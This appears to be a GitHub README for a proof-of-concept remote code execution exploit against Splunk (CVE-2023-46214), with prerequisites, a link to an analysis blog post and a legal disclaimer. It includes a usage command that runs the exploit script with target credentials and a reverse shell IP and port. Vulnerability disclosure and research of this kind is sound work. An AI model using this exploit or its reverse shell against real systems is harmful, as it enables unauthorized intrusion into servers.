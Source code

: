 # Splunk RCE - PoC

Proof of concept exploit for [CVE-2023-46214](https://nvd.nist.gov/vuln/detail/CVE-2023-46214), [SVD-2023-1104](https://advisory.splunk.com/advisories/SVD-2023-1104)

![poc](screenshots/poc.gif)

## Usage

The Splunk instance URL, username, password, reverse shell IP, and port are all required as command-line parameters. For example:

```console
$ python3 CVE-2023-46214.py --url <Splunk_URL> --username <Username> --password <Password> --ip <Reverse_Shell_IP> --port <Reverse_Shell_Port>
```

## Prerequisites

- Splunk credentials with upload permission to adddatamethods
    - Note: another vector might be possible, this is just what I used
- Splunk is not running on SHC mode

## Analysis

I've written a blog post detailing the methodology taken to uncover this vulnerability. If you are running into any issues with the script, the blog could be helpful as it details the manual steps for exploitation. 

[Analysis of CVE-2023-46214 + PoC](https://blog.hrncirik.net/cve-2023-46214-analysis)



## Legal Disclaimer

The Proof of Concept (PoC) script provided in this repository serves solely for educational and research objectives. Its purpose is to showcase a specific vulnerability and aid in comprehending associated security risks.

Any use of this script for unauthorized activities, including but not limited to unauthorized system access, unauthorized testing, or other forms of misuse, is unequivocally forbidden.

The creators and contributors of this repository disclaim all liability for the improper use or any damage or harm resulting from the use of this script. By utilizing this script, you consent to use it in a responsible manner and at your own risk.
